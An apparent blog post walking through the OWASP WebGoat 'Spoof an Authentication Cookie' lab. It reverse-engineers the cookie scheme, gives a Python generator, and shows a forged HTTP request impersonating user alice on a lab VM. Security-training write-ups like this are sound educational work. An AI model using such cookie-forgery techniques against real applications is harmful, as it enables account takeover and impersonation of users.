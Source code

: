 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge: Session Management Flaws"
subtitle: "Spoof and Authentication Cookie"
date:   2017-02-01 10:00:00 -0500
author: "coastal"
header-img: "images/site-resources/webgoat-header.jpg"
---
```

# Spoof an Authentication Cookie
Instructions:

- The user should be able to bypass the authentication check. Login using the webgoat/webgoat account to see what happens. You may also try aspect/aspect. When you understand the authentication cookie, try changing your identity to alice. 

Alright, lets log in as webgoat/webgoat and grab the request and response:

```
Username=webgoat&Password=webgoat&SUBMIT=Login
```

```
Set-Cookie: AuthCookie=65432ubphcfx
```

Alright, let's check out aspect/aspect:

```
Set-Cookie: AuthCookie=65432udfqtb
```

Hmm..so the first 5 characters, the integers, seem constant across these logins. The letters that follow seem to have the same number of characters as the username for the login. Let's take a look at the letters a few different ways:

```
webgoat
ubphcfx

aspect
udfqtb

webgoat
xfchpbu

aspect
btqfdu
```

Alright, looks like we might have a character shift by one (+1) and a reversal. Let's write a reverse engineered cookie generator:

{% highlight python %}
import sys

def login_cookie(username):
	chars = "abcdefghijklmnopqrstuvwxyz"
	cookie = ""
	for c in username.lower():
		index = chars.index(c)
		cookie += chars[(index+1) % len(chars)]

	print "65432"+cookie[::-1]

def main():
	login_cookie(sys.argv[1])

main()
{% endhighlight %}

Okay, let's give it a shot with webgoat:

```
>python 19_cookie_reveng.py webgoat
65432ubphcfx
```

Cool cool. Let's get alice's code:

```
>python 19_cookie_reveng.py alice
65432fdjmb
```

Okay, now let's login to webgoat's account and hit the ```Refresh``` button and capture that request. Now let's forge it with alice's ```AuthCookie```:

```
GET /WebGoat/attack? HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:51.0) Gecko/20100101 Firefox/51.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=301&menu=1800
Cookie: AuthCookie=65432fdjmb; JSESSIONID=D49B1C7B6EE2243929D320213C6A9C1B; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
Upgrade-Insecure-Requests: 1
```

<img src="{{ site.baseurl }}/images/2017-02-01-webgoat_part_19/completed.jpg">

Forgery complete!